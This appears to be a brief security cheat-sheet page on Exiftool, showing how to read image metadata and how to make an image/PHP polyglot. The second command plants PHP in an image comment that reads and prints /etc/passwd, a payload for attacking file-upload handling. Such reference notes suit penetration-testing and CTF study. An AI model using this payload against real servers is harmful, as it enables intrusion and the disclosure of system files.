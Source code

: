 ```yaml
---
title: Exiftool
desc: Read and write meta information in files. It’s also used to create a polyglot. 
tags: [Linux, Steganography]
alts: [Binwalk, Steghide, Stegseek, Xxd, Zsteg]
website:
render_with_liquid: false
---
```


## Read meta information

```sh
exiftool example.jpg
```

<br />

## Create a polyglot

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```